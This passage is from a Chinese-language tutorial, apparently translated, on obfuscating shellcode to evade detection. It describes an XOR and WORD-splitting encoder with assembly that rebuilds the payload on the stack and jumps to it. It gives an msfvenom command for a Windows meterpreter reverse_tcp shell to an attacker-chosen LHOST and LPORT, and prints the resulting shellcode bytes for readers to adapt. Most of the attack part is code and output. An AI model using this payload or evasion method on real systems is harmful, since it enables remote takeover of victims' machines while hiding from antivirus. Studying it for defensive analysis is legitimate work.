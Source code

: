 这一步完成后，我们只要跳转到正确地址就能顺利运行载荷。

本例中，我编写了一个简单的混淆器，对载荷进行异或处理，通过混淆器还原并运行载荷。

这个[混淆器](https://github.com/ApertureSecurity/Assembly-Series/blob/master/LazyBitmaskEncoder.c)将载荷按WORD大小分割为多段数据，将FFFF添加到每段数据前头，通过逐位运算移除FFFF，将处理后的WORD添加到DWORD的第一部分，然后再添加下一个WORD数据到DWORD的第二部分。处理过程如下所示：

```
Mov eax, FFFFAABB    ; 将数据Move到EAX
And eax, FFFF        ; 移除头部的FFFF
Mov ebx, FFFFCCDD    ; 将数据Move到EBX
Mov ax, bx           ; EAX填充为AABBCCDD
Push eax             ; 压入栈中
Jmp esp              ; 跳转到载荷在栈中的地址并执行
```

出于混淆目的，我的代码中添加了一些异或处理过程，如果你有任何疑问，可以仔细研读代码并亲自动手试试代码的输出结果。

<br>

**四、开始工作**

我们先介绍一下如何使用MSFVENOM生成一段简单的载荷。你需要根据实际情况修改以下命令中的LPORT和LHOST参数值：

```
msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=5555 -f c
```

输出结果如下所示，我标粗了其中的IP数据，以便读者替换为自己的IP（可以使用[IP/Hex Converter](http://ncalculators.com/digital-computation/ip-address-hex-decimal-binary.htm)这个工具）。

```
“xfcxe8x82x00x00x00x60x89xe5x31xc0x64x8bx50x30”
“x8bx52x0cx8bx52x14x8bx72x28x0fxb7x4ax26x31xff”
“xacx3cx61x7cx02x2cx20xc1xcfx0dx01xc7xe2xf2x52”
“x57x8bx52x10x8bx4ax3cx8bx4cx11x78xe3x48x01xd1”
“x51x8bx59x20x01xd3x8bx49x18xe3x3ax49x8bx34x8b”
“x01xd6x31xffxacxc1xcfx0dx01xc7x38xe0x75xf6x03”
“x7dxf8x3bx7dx24x75xe4x58x8bx58x24x01xd3x66x8b”
“x0cx4bx8bx58x1cx01xd3x8bx04x8bx01xd0x89x44x24”
“x24x5bx5bx61x59x5ax51xffxe0x5fx5fx5ax8bx12xeb”
“x8dx5dx68x33x32x00x00x68x77x73x32x5fx54x68x4c”
“x77x26x07xffxd5xb8x90x01x00x00x29xc4x54x50x68”
“x29x80x6bx00xffxd5x6ax05x68x01x02x03x04x68x02″
“x00x15xb3x89xe6x50x50x50x50x40x50x40x50x68xea”
“x0fxdfxe0xffxd5x97x6ax10x56x57x68x99xa5x74x61”
“xffxd5x85xc0x74x0axffx4ex08x75xecxe8x61x00x00”
“x00x6ax00x6ax04x56x57x68x02xd9xc8x5fxffxd5x83”
“xf8x00x7ex36x8bx36x6ax40x68x00x10x00x00x56x6a”
“x00x68x58xa4x53xe5xffxd5x93x53x6ax00x56x53x57”
“x68x02xd9xc8x5fxffxd5x83xf8x00x7dx22x58x68x00”
“x40x00x00x6ax00x50x68x0bx2fx0fx30xffxd5x57x68”
“x75x6ex4dx61xffxd5x5ex5exffx0cx24xe9x71xffxff”
“xffx01xc3x29xc6x75xc7xc3xbbxf0xb5xa2x56x6ax00”
“x53xffxd5”;
```

